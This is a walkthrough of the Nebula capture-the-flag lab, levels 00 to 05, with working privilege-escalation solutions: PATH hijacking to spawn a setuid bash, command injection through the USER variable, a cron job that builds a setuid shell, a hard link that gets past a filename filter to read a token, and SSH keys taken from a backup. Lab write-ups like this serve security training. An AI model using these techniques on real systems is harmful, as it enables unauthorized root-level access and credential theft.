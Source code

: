Nebula Exec:

The purpose of every (AFAIK) exercise is to run the command `getflag`
as the user flagXX.

### Level00:

find a program with set uid that will run as the "flag00" user.

Solution


Find the account of the user `flag00` which is in `/home/flag00`
Then run an ls to find his uid:
```
ls -nl /home/flag00
```
With the user id number use the comand find to find a file
```
find / -uid 999
```
The file which we need to find is `/rofs/bin/.../flag00`, when we run this exe
we get a shell with the user `flag00`, now we can run the command `getflag`.


### Level01

Find the vulnerability in this code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}

```

This exercise is related to the `/usr/bin/env` which does not takes any user
defined variables. Which can be good or it can be used to override the system
path.

The quiz asks to find how to use the executable to execute any program.
Here is my solution:
```
$ cat > ~/echo.c
#include <unistd.h>
main()
{
  setresgid(998, 998, 998); // here we use the flag01 uid and gid
  setresuid(998, 998, 998);
  system("/bin/bash");
  0==0;
}
^D
$ gcc echo.c -o echo
$ PATH=/home/level01/:$PATH
$ ./flag01
$ ./getflag
```

What we are doing is to use the fact that env takes the environment variables
like PATH and uses that to execute the commands unless we specify a different
value. Also the system searches the PATH in order, this is why we set our home
directory first in the PATH variable. Then when the `system` is called it finds
our executable `echo` and uses it to acomplish what is being asked in the string

### Level02

The quiz here is the same, exploit the program to execute any program that we
may want.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

This is similar to the last exercise, now we can override the `USER` variable
and use shell logic operators to make the program to execute any input as long
as it is well formed.

Solution:

```
$ cat > ~/create_shell.c
#include <unistd.h>
main()
{
  setresgid(997, 997, 997); // here we use the flag02 uid and gid
  setresuid(997, 997, 997);
  system("/bin/bash");
  0==0;
}
^D
$ gcc create_shell.c -o create_shell
$ USER="msg && create_shell"
$ PATH=/home/level02/:$PATH
$ ./flag02
$ /bin/getflag
```

the ls command can be replaced by our shell or any other command. For example we
could crash/hang/lag the system  by calling the same program recursively:

```
$ USER="msg && ./flag02 && echo"
$ ./flag02
```

### Level03

Check the files in /home/flag03. There is a crontab that is called every couplpe
of minutes.
For this we need to check crontab to see which jobs are scheduled.

There is no description of what is the target for this level, but a search shows
that the target of this level is to execute a bash as the user `flag03`.

For this we can use the calls to `setresuid` and `setresgid` and also the
sticky bit which allows to run the program as the user who created it, not as
the user executing the file.

The solution:

```
$ cat > runme.c
#include <unistd.h> main() {
  setresgid(996,996,996);
  setresuid(996,996,996);
   system("/bin/bash");
    0==0;}
^D
cp runme.c /tmp
```
Now we need the cron job to compile and create an executable for us which will
create a shell for us.
```
#!/bin/bash
gcc /tmp/runme.c -o /home/flag03/shell_flag
chmod +sx /home/flag03/shell_flag
```

Make the last schipt executable and add it to the `writable.d` directory.
Thi will generate an executable with the sticky bit, which will run the program
with the id of the flag03 user, and will create a shell for us. There we can
`getflag`.


### Level04

This level requires to read a token file, but the code restricts the files that
can be read. Find a way to bypass it.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));

  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}

```

The `ls` for `/home/flag04` is:

```
flag04 token
```

All access disabled except for run the `flag04` file. As we can se in the code
it checks only for the name of the file, then we can easily create a link with
a different name but the same inode.

```
ln /home/flag04/token key
/home/flag04/flag04 key
06508b5e-8909-4f38-b630-fdb148a848a2
```
Now we can use that key as password to get access as a user `flag04`.
```
$su flag04
password:
sh-4.2$ whoami
flag04
sh-4.2$ /bin/getflag
```

### Level05

Check the directory `/home/flag05`. Use the weak permissions to get acces and
run the `getflag` command as flag05 user.

The exploit here consist of a stole the ssh cretentials that were available in
the directoy.
```
tar xvzf /home/flag05/.backup/backup-19072011.tgz -C ~
ssh flag05@localhost
flag05@nebula:~$ getflag
```
